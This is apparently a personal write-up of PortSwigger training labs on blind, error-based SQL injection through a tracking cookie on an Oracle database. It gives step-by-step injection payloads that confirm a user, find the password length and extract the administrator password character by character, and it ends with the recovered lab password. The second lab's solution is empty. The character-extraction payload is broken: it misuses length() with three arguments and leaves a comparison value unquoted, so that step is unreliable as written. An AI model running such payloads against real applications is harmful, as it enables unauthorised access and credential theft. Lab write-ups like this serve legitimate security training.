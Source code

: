 # Error-based SQL injection

## Lab's decsription

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

**End goal:** log in as the `administrator` user.

We have hint: `This lab uses an Oracle database.`

Oracle's syntax: [SQL Cheatsheat](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Solution

Use Burp Suite to intercept and modify `TrackingId` cookie.

First, we need to see the behavior after modify cookie. Go to login page

![](img/2.png)

Here is my cookie: `ZDhTYBxTuioKS1t5`. 

Send this to Repeater. 

Now we gonna see if the username `administrator` exits or not.

`ZDhTYBxTuioKS1t5'||(select case when (1=2) then to_char(1/0) else '' end from users where username='administrator')||'`

Next we gonna see the length of the password. Send the target to Intruder and loop it from 1 to 20.

`ZDhTYBxTuioKS1t5'||(select case when (length(password) > 1) then to_char(1/0) else '' end from users where username='administrator')||'`

![](..//Exploiting%20blind%20SQL%20injection%20by%20triggering%20conditional%20responses/img/5.png)

![](../Exploiting%20blind%20SQL%20injection%20by%20triggering%20conditional%20responses/img/7.png)

We can see the length is different, because it does not respond the `Error` message.

After that, we will discover character-by-character for the password.

`ZDhTYBxTuioKS1t5'||(select case when (length(password,1,1) = a) then to_char(1/0) else '' end from users where username='administrator')||'`

![](../Exploiting%20blind%20SQL%20injection%20by%20triggering%20conditional%20responses/img/4.png)

![](img/1.png)

After an hour, I got this:

`Username: administrator`

`Password:x555lejj395mk0k98nja`

**Source:** [Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors#)

---

# Visible error-based SQL injection

## Lab's decsription

This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called users, with columns called username and password.

**End goal:** log in as the `administrator` user.

## Solution

**Source:** [Lab: Visible error-based SQL injection](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based#)
